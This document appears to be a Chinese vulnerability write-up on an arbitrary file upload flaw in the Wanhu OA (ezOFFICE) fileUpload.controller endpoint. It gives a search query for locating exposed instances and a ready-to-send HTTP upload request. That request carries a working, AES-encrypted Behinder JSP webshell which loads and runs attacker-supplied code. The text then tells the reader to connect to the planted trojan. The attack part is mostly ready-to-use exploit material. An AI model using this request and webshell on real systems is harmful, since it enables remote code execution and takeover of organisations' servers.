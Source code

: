 # 万户OA fileUpload.controller 任意文件上传漏洞

## 漏洞描述

万户OA fileUpload.controller 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1628348571931-52bde954-fcd0-485f-bc17-1494f5eb53f4.png)

发送请求包上传文件

```php
POST /defaultroot/upload/fileUpload.controller HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Length: 773

--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Disposition: form-data; name="file"; filename="cmd.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*......tas9er*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0--
```

![img](../../../.vuepress/public/img/1628348700247-9ac78c6c-b56f-4137-a0b3-ba3b13733c19.png)

使用冰蝎连接木马 **/defaultroot/upload/html/xxxxxxxxxx.jsp**

![img](../../../.vuepress/public/img/1628349045223-89889c4f-c7e6-4a31-af77-5c58fa8749b4.png)





若有收获，就点个赞吧